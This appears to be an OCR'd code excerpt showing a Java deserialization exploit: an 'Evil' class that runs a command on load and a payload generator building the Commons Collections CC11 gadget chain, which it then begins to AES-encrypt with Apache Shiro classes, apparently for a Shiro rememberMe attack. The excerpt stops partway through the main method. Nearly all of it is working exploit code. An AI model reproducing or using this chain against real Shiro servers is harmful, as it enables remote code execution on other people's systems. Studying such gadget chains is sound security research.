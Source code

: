 ```java
    public Evil() throws Exception {
        super();
        System.out.println("Hello TemplatesImpl");
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class GenePayLoad {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static byte[] CC11_PayLoad(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        // 先设置成人畜无害的getClass方法,避免本地调试触发payload
        Transformer transformer = new InvokerTransformer("getClass", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, obj);

        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        outerMap.clear();

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        return baos.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] codes = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        AesCipherService aes = new AesCipherService();
```